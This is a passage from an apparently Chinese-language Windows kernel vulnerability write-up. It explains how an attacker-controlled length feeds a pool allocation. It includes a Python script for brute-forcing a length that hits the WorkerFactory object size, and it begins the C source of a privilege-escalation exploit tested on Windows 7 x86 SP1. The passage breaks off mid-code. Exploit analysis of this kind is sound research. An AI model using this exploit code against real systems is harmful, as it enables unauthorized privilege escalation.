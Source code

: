 ```
  return result; 
}
```

可见作为长度传递给内存分配函数 ExAllocatePoolWithTag 的参数 v8 由 VirtualAddress 和 Length 计算而来， 而 VirtualAddress 和 Length 是受我们控制的。我们可以用以下代码暴力计算：

```
VirtualAddress = 0x710DDDD 
TargetSize = 0xA0  #WorkerFactory对象大小 
 
for Length in range(0, 0xFFFFFFFF, 1): 
    extra_page = int((int(Length & 0xFFF) + int(VirtualAddress & 0xFFF) + 0xFFF) >> 12) 
    v7 = extra_page + int(Length >> 12) 
    if TargetSize == (4 * v7 + 0x1C): 
        print('%X <=> %d' % (Length, Length)) 
        break
```

其结果如下：

 

![](https://bbs.pediy.com/upload/attach/202206/156241_K3QEW5W8SYAK329.png)

 

最终得到的值和参考 2 中 Exploit 的 Length 其实是不相等的， 参考 2 中的 Length 计算后为 0x20000, 经过实际测试， 使用我们计算得到的值 0x1F224 也可以成功提权。

 

实际上， 如果将上述代码最后的 break 去掉， 我们可以得到非常多可用的值， 0x20000 就在其中。

#### Put it all togeher

以下利用代码来自于参考 2, 仅对上面提到的 Length 做了修改， 且在 Windows 7 x86 SP1 上测试提权成功 :

```
#include #include #pragma comment(lib,"Ws2_32.lib") 
 
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0) 
#define STATUS_INFO_LENGTH_MISMATCH  ((NTSTATUS)0xC0000004L) 
 
typedef NTSTATUS(__stdcall* __NtCreateWorkerFactory)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T); 
typedef NTSTATUS(__stdcall* __NtQueryEaFile)(HANDLE, PVOID, PVOID, ULONG, BOOLEAN, PVOID, ULONG, PULONG, BOOLEAN); 
typedef NTSTATUS(__stdcall* __NtQuerySystemInformation)(ULONG, PVOID, ULONG, PULONG); 
typedef NTSTATUS(__stdcall* __NtSetInformationWorkerFactory)(HANDLE, ULONG, PVOID, ULONG); 
typedef NTSTATUS(__stdcall* __NtQueryIntervalProfile)(DWORD, PULONG); 
typedef NTSTATUS(__stdcall* __PsLookupProcessByProcessId)(DWORD, LPVOID*); 
typedef NTSTATUS(__stdcall* __NtQueryInformationWorkerFactory)(HANDLE, LONG, PVOID, ULONG, PULONG); 
 
 
typedef struct _SYSTEM_MODULE_INFORMATION_ENTRY { 
    HANDLE Section; 
    PVOID  MappedBase; 
    PVOID  Base; 
    ULONG  Size; 
    ULONG  Flags; 
    USHORT LoadOrderIndex; 
    USHORT InitOrderIndex; 
    USHORT LoadCount; 
    USHORT OffsetToFileName; 
    CHAR   ImageName[256]; 
} SYSTEM_MODULE_INFORMATION_ENTRY, * PSYSTEM_MODULE_INFORMATION_ENTRY; 
 
```